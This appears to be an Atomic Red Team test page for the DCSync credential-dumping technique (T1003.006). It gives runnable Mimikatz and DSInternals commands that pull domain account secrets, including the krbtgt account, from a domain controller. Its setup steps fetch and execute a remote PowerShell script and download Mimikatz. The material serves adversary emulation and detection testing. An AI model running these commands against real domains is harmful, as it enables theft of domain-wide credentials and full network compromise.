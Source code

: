 ```yaml
---
tags: [T1003_006, atomic_test]
filename: "[[T1003.006|T1003.006 - OS Credential Dumping: DCSync]]"
---
```

# T1003.006 - OS Credential Dumping: DCSync

## Atomic Test #1 - DCSync (Active Directory)
Active Directory attack allowing retrieval of account information without accessing memory or retrieving the NTDS database.
Works against a remote Windows Domain Controller using the replication protocol.
Privileges required: domain admin or domain controller account (by default), or any other account with required rights.
[Reference](https://adsecurity.org/?p=1729)

**Supported Platforms:** Windows


**auto_generated_guid:** 129efd28-8497-4c87-a1b0-73b9a870ca3e





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| domain | Targeted Active Directory domain | string | %userdnsdomain%|
| user | Targeted user | string | krbtgt|
| mimikatz_path | Mimikatz windows executable | path | %tmp%&#92;mimikatz&#92;x64&#92;mimikatz.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
#{mimikatz_path} "lsadump::dcsync /domain:#{domain} /user:#{user}@#{domain}" "exit"
```




#### Dependencies:  Run with `powershell`!
##### Description: Mimikatz executor must exist on disk and at specified location (#{mimikatz_path})
##### Check Prereq Commands:
```powershell
$mimikatz_path = cmd /c echo #{mimikatz_path}
if (Test-Path $mimikatz_path) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-FetchFromZip.ps1" -UseBasicParsing) 
$releases = "https://api.github.com/repos/gentilkiwi/mimikatz/releases"
$zipUrl = (Invoke-WebRequest $releases | ConvertFrom-Json)[0].assets.browser_download_url | where-object { $_.endswith(".zip") }
$mimikatz_exe = cmd /c echo #{mimikatz_path}
$basePath = Split-Path $mimikatz_exe | Split-Path
Invoke-FetchFromZip $zipUrl "x64/mimikatz.exe" $basePath
```




<br/>
<br/>

## Atomic Test #2 - Run DSInternals Get-ADReplAccount
The following Atomic will run Get-ADReplAccount from DSInternals.
Upon successful execution, domain and credentials will appear in stdout. 
[Reference](https://www.crowdstrike.com/blog/observations-from-the-stellarparticle-campaign/) CrowdStrike StellarParticle.
https://www.dsinternals.com/en/retrieving-active-directory-passwords-remotely/

**Supported Platforms:** Windows


**auto_generated_guid:** a0bced08-3fc5-4d8b-93b7-e8344739376e





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| logonserver | ComputerName argument default %logonserver% | string | $ENV:logonserver.TrimStart("&#92;")|


#### Attack Commands: Run with `powershell`! 


```powershell
Get-ADReplAccount -All -Server #{logonserver}
```




#### Dependencies:  Run with `powershell`!
##### Description: DSInternals must be installed
##### Check Prereq Commands:
```powershell
$RequiredModule = Get-Module -Name DSInternals -ListAvailable
if (-not $RequiredModule) {exit 1}
if (-not $RequiredModule.ExportedCommands['DSInternals']) {exit 1} else {exit 0}
```
##### Get Prereq Commands:
```powershell
Install-Module -Name DSInternals -Scope CurrentUser -Force
```




<br/>
